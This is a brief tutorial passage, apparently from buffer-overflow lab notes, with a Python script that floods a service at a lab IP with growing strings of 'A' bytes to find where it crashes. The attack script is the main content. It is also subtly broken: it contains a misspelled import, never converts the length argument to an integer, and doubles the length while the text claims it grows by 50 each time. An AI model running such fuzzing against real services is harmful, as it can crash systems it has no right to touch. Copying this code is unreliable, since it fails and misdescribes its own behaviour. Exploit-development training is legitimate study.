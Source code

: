You gotta find the point the program crash, which you can use python.

```python
import socke
import sys
from time import sleep

ip, port = "10.10.10.10", 9999
fuzzer = sys.argv[1]
prefix = b"" # change this if necessary and make sure theres a space at the end.

while True:
	try:
		s = socket.socket()
		s.connect((ip, port))
		s.send(prefix + b"A"*fuzzer)
		sleep(1)
		fuzzer = fuzzer+fuzzer
	except:
		print(f"Crashed at {fuzzer} bytes")
		sys.exit()
```

Run this with 
Ex. `python3 fuzzer.py 50`
This will fuzz the port with 50 bytes then 100 then 150 etc.
